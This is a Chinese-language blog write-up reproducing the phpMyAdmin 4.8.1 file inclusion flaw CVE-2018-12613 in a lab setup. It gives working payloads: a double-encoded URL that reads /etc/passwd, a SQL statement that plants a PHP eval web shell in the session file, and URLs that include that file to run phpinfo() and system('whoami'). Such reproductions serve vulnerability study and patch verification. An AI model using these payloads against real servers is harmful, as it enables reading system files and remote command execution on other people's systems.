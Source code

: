 ```yaml
---
title: phpMyAdmin 4.8.1 远程文件包含(CVE-2018-12613)
date: 2020-07-01 21:17:26
categories: 漏洞复现
tags: phpMyAdmin
---
```


#### 背景

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

#### 复现过程

##### 漏洞验证

1.使用如下POC，若成功读取/etc/passwd文件内容，则存在漏洞

```
访问http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![](http://cdn.laohuan.art/2020-06-30_20-10-11.png)

##### 利用session写shell

1.需先登录phpmyadmin，执行sql语句,代码为GET传参,图为POST传参

```php
SELECT "<?php eval($_GET['cmd']); ?>"
```

2.F12获取cookie

![](http://cdn.laohuan.art/2020-06-30_20-43-05.png)

将cookie的值和**sess_**拼接，便得到了存储在服务器端的session文件,这里注意，图中的cookie值因测试多次和实际值不一样，因为人懒，懒得再截图。

 `sess_575f961b1e574936b7a6e1d237f82ade`

![](http://cdn.laohuan.art/2020-07-01_16-31-03.png)

3.使用POC命令执行

当然实际环境中就根据经验或其他手段来猜测路径了

```url
http://URL:端口/index.php?cmd=phpinfo();&target=db_sql.php%253f/../../../../tmp/sess_575f961b1e574936b7a6e1d237f82ade
/var/www/html
```

![](http://cdn.laohuan.art/2020-07-01_20-48-30.png)

```
http://URL:端口/index.php?cmd=system(%27whoami%27);&target=db_sql.php%253f/../../../../tmp/sess_575f961b1e574936b7a6e1d237f82ade
```

![](http://cdn.laohuan.art/2020-07-01_21-00-22.png)

![](http://cdn.laohuan.art/2020-07-01_21-01-12.png)

#### 参考链接

<https://www.pianshen.com/article/6744149320/>

<https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md/>

